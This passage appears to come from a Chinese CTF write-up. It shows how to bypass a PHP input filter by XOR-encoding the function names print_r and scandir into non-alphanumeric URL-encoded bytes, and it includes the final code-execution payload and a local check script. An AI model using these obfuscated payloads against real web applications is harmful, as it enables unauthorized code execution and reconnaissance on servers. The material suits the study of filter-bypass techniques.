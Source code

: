 那么我们的payload即print_r(scandir(.))将其中的ntr也替换掉即可变成13个字符

```php
?_=print(scandir(.));
?_=(%8F%8D%96%91%8B%A0%8D)^(%FF%FF%FF%FF%FF%FF%FF)((%8C%9C%9E%91%9B%96%8D)^(%FF%FF%FF%FF%FF%FF%FF)((%D1)^(%FF)));

print_r:
(%8F%8D%96%91%8B%A0%8D)^(%FF%FF%FF%FF%FF%FF%FF)
变换成:
(%8F%8f%9c%91%8c%A0%8f)^(%FF%FF%FF%FF%FF%FF%FF)^(%FF%9c%9b%FF%9c%FF%9c)^(%FF%9e%91%FF%9b%FF%9e)

scandir:
(%8C%9C%9E%91%9B%96%8D)^(%FF%FF%FF%FF%FF%FF%FF)
变换成
(%8C%9C%9E%91%9B%9c%8f)^(%FF%FF%FF%FF%FF%FF%FF)^(%FF%FF%FF%FF%FF%9b%9c)^(%FF%FF%FF%FF%FF%91%9e)

    
    
//本地测试查看是否为原字符
<?php
$print_r=urldecode('%8F%8f%9c%91%8c%A0%8f')^urldecode('%FF%9c%9b%FF%9c%FF%9c')^urldecode('%FF%9e%91%FF%9b%FF%9e')^urldecode('%FF%FF%FF%FF%FF%FF%FF');
$scandir=urldecode('%8C%9C%9E%91%9B%9c%8f')^urldecode('%FF%FF%FF%FF%FF%9b%9c')^urldecode('%FF%FF%FF%FF%FF%91%9e')^urldecode('%FF%FF%FF%FF%FF%FF%FF');
print($print_r);
print("\n");
print($scandir);
 
输出为：
print_r
scandir
```

 变换后的payload:

```php
print_r(scandir(.));
((%8F%8f%9c%91%8c%A0%8f)^(%FF%FF%FF%FF%FF%FF%FF)^(%FF%9c%9b%FF%9c%FF%9c)^(%FF%9e%91%FF%9b%FF%9e))(((%8C%9C%9E%91%9B%9c%8f)^(%FF%FF%FF%FF%FF%FF%FF)^(%FF%FF%FF%FF%FF%9b%9c)^(%FF%FF%FF%FF%FF%91%9e))((%D1)^(%FF)));
```

![image-20231024142306929](assets/image-20231024142306929.png)
